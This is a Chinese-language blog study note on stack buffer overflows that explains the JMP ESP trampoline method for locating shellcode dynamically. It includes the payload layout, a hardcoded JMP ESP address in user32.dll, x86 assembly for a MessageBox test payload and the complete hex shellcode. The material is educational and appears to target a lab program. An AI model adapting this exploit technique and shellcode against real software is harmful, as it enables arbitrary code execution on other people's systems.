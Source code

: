 ```yaml
---
title: 漏洞学习笔记-002-ESP跳板
author: Misaka
date: 2020-10-19 18:20:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true

---
```


ShellCode的动态定位法-ESP跳板法

> [点击此处下载本文附可执行程序，shellcode文件](/assets/ExpStd/ExpStd02.zip)

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-002-ESP跳板/)

## 栈空间移位

ShellCode在内存中往往是动态的，并非直接填写一个定值  
也就是前一篇中buffer数组的栈空间地址，并非总是个定值  
当CPU执行到此地址时，有可能触发无效指令异常导致程序崩溃，ShellCode无法运行

### 原理

从程序已加载的系统DLL中查找一个`JMP ESP`指令的地址，用此地址去淹没返回地址  
这样既能精准定位shellcode的位置，又能适应栈空间的动态变化  
栈的地址是上小下大，CPU的执行顺序是小地址到大地址，栈淹没同样从小地址淹没到大地址  
这样只要将前面的一段空间淹没为无意义数据，将ShellCode的开始恰好淹没在`[ESP]`处，就可以达到ShellCode动态寻址

### ShellCode编写

#### 结构

无用数据+`JMP ESP`地址(此地址恰好淹没到函数返回地址)+命令代码(用于测试，MessageBox弹窗)

> 说明：
>
> - `retn`后将会跳到`JMP ESP`处，随后ESP + 4
> - `JMP ESP`后将会正好跳到命令代码处

#### 必要数据

- `JMP ESP`地址：位于User32.dll中`0x77D29353`(没必要必须是原版命令，只要搜二进制`0xFFE4`即可)
- 垃圾数据大小：52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### 最终Code

> 以下是需要执行的命令代码

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> 最终的ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
